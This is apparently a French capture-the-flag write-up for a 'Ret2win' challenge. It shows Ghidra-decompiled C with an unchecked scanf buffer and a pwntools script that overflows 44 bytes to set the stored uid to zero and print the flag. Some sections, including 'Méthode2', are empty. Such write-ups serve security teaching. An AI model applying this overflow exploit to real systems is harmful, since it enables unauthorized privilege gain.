

# Ret2win

Avec Ghidra, on tombe rapidement sur main:

```c
undefined8 main(void)

{
  undefined local_38 [44];
  __uid_t local_c;

  local_c = geteuid();
  printf("username: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_0010200f,local_38);
  if (local_c == 0) {
    system("cat flag.txt");
  }
  else {
    system("cat flop.txt");
  }
  return 0;
}
```

## Padding


Le segfault plus loin que prévu dans `ret` à 0x38 = 56:



On cherche à mettre `uid = 0`. Or la taille du `uid_t` stockant l'uid est de 4 octets ainsi on peut tester:


## Win

Méthode 1:

```python
#! /usr/bin/env python3
from pwn import *

s = remote('challenges.france-cybersecurity-challenge.fr',port=2100)

#recupere l'adresse leak du buffer
s.recvuntil('username: ', drop=True)

payload = 'A'*44 + '\x00'
s.sendline(payload)
s.interactive()
s.close()
```

Méthode2:


